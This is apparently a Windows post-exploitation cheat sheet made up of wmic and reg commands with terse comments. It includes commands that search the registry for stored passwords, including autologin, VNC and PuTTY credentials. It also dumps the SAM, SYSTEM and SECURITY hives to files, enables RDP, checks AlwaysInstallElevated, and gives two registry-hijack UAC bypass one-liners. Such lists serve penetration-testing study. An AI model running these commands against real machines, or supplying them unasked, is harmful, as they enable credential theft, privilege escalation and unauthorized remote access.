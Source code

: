 ```bat
wmic logicaldisk where drivetype=3 get name, freespace, systemname, filesystem, size, volumeserialnumber
wmic start list full
    -list startup programs
wmic computersystem get domain
wmic ntdomain list
    -domain and DC info
PRIVESC enumeration
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
    -find unquote service path
 
   
   
REGISTRY
*note HKLM keys are for HKey local machine registry
*HKCU keys are for HKey current user registry entries
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
    -together allow users of any privilege level to install *.msi files as NT AUTHORITY\SYSTEM
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
    -enable RDP
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
    -grep the registry for key word "password"
REG add "HKLM\SYSTEM\CurrentControlSet\services\RpcSs" /v Start /t REG_DWORD /d 2 /f
    -change startup type for rpc service to automatic
REG add "HKLM\SYSTEM\CurrentControlSet\services\RpcSs" /v Start /t REG_DWORD /d 4 /f
    -change startup type for rpc service to disabled
reg add
"HKEY_LOCAL_MACHINE\SYSTEM\Current ControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
reg query HKLM /s /d /f "C:\* *.exe" | find /I "C:\" | find /V """"
    -(win7) curely registered executables within the system registry
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
    -windows autologin
reg query "HKCU\Software\ORL\WinVNC3\Password"
    -vnc stored password
reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"
    -putty cleartext credentials
reg save HKLM\Security security.hive    --save security.hive
reg save HKLM\System system.hive    --save system hive to file
reg save HKLM\SAM sam.hive  --save sam to file
reg add HKEY_CURRENT_USER\Software\Classes\mscfile\shell\open\command /d "cmd.exe" /f && START /W CompMgmtLauncher.exe && reg delete HKEY_CURRENT_USER\Software\Classes\mscfile /f
    -UAC bypass for win 7/8/10
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /d "cmd.exe" /f && START /W sdclt.exe && reg delete "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\App Paths\control.exe" /f
    -UAC bypass for win 10
 
START>Administrative Tools>Server Manager>Features>Add Features>Administrative Tools>Windows Powershell
    -enable powershell on machine
POWERSHELL
syntax (from cmd.exe, where installed):
    Special Characters
" The beginning (or end) of quoted text
# The beginning of a comment
$ The beginning of a variable
& Reserved for future use
( ) Parentheses used for subexpressions
```